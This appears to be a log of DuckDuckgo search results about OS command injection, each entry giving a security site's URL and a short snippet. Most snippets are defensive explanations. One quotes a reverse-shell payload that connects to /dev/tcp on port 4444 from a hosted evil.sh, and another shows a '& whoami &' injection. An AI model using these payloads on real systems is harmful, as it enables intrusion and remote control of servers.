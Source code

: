 ## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-11`

* https://commonvuln.mfbktech.academy/os-command-injection

<blockquote>
 OSCommandInjectionCommonWebVulnerabilityPHP
</blockquote>
<blockquote>
OS Command Injection is a type of security vulnerability found in web applications that allows attackers to execute arbitrary operating system commands on the server. It occurs when an application passes unsanitized user input to a system shell (such as Bash on Unix-based systems or Command Prompt on Windows) for execution. Attackers exploit this vulnerability by injecting malicious commands ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-09`

* https://the-pentesting-guide.marmeus.com/web/os_command_injection

<blockquote>
 OScommandinjectionThePentestingGuideMarmeus
</blockquote>
<blockquote>
OS command injection is an attack in which an attacker can execute arbitrary commands on the server-operative system that is running the application, sometimes compromising the application and its data. This kind of attack is possible due to a lack of proper input/output data validation when an application passes unsafe user input data (forms, cookies, HTTP headers etc.) to a system shell ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-09`

* https://www.cvedetails.com/cve/CVE-2025-6771/

<blockquote>
 CVE20256771OScommandinjectioninIvantiEndpointManagerMobile
</blockquote>
<blockquote>
OS command injection in Ivanti Endpoint Manager Mobile (EPMM) before version 12.5.0.2,12.4.0.3 and 12.3.0.3 allows a remote authenticated attacker with high privileges to achieve remote code execution
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-08`

* https://www.securityium.com/what-is-os-command-injection/

<blockquote>
 WhatIsOSCommandInjectionSecurityium
</blockquote>
<blockquote>
How OS Command Injection Attacks Are Executed Basic Exploitation Attackers exploit command injection by injecting shell separators like `&amp;`, `|`, or `;`. For example, appending `&amp; whoami &amp;` to a parameter might reveal the server's user, a first step to deeper compromise. Useful Commands for Attackers Once in, attackers use commands to probe the system: Linux: `whoami` (user), `uname -a` (OS ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-07`

* https://knowledge-base.secureflag.com/vulnerabilities/code_injection/os_command_injection_vulnerability.html

<blockquote>
 OSCommandInjectionSecureFlagSecurityKnowledgeBase
</blockquote>
<blockquote>
Impact Malicious attackers can leverage OS Command Injection vulnerabilities to gain a foothold in the hosting infrastructure, pivot to connected systems throughout the organisation, execute unauthorised commands and fully compromise the confidentiality, integrity and availability of the application and the underlying system. There is no better publicly known breach that better illustrates the ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-07`

* https://exploit-notes.hdks.org/exploit/web/security-risk/os-command-injection/

<blockquote>
 OSCommandInjectionExploitNotesHDKS
</blockquote>
<blockquote>
Indirect Payloads with Shell Script If we cannot inject command directly as above, try injecting from files. Create a shell script. The filename here is evil.sh `. &#35;!/bin/bash bash -c 'bash -i &gt;&amp; /dev/tcp/10...1/4444 0&gt;&amp;1' Host this file by starting web server in the directory where the evil.sh exists. sudo python3 -m http.server 80
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-03`

* https://ctf101.org/web-exploitation/command-injection/what-is-command-injection/

<blockquote>
 CommandInjectionCTFHandbookCTF101
</blockquote>
<blockquote>
Command injection is a very common means of privelege escalation within web applications and applications that interface with system commands. Many kinds of home routers take user input and directly append it to a system command.
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-03`

* https://www.redsentry.com/blog/os-command-injection-in-depth-a-guide-for-developers-and-security-professionals

<blockquote>
 OSCommandInjectioninDepthAGuideforDevelopersandSecurity
</blockquote>
<blockquote>
OS command injection is a serious security vulnerability that occurs when an application allows user-supplied input to be passed to the operating system as part of a command. This can enable attackers to execute arbitrary commands on the host system, potentially leading to unauthorized access, data breaches, and system compromise. In web applications, this vulnerability typically arises when ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-02`

* https://www.dev.snyk.io/blog/command-injection/

<blockquote>
 CommandinjectionhowitworkswhataretherisksandhowtoSnyk
</blockquote>
<blockquote>
Command injection attacks—also known as operating system command injection attacks—exploit a programming flaw to execute system commands without proper input validation, escaping, or sanitization, which may lead to arbitrary commands executed by a malicious attacker.
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-02`

* https://osintteam.blog/command-injection-the-ultimate-guide-to-exploiting-and-preventing-os-command-execution-85b74f519fce

<blockquote>
 CommandInjectionTheUltimateGuidetoExploitingandPreventingOS
</blockquote>
<blockquote>
Command Injection is a critical vulnerability that allows an attacker to execute arbitrary system commands on a server hosting an application. If an application improperly handles user input and passes it to the operating system, an attacker can escape the intended function and execute system commands with the same privileges as the application.
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-01`

* https://cyberbull.medium.com/os-command-injection-deep-dive-823495f9fa09

<blockquote>
 OSCommandInjectionDeepDivebyAdityaPandeyMedium
</blockquote>
<blockquote>
Attackers typically exploit OS Command Injection by inserting malicious commands into input fields or parameters that are used by the application to construct system commands.
</blockquote>

---

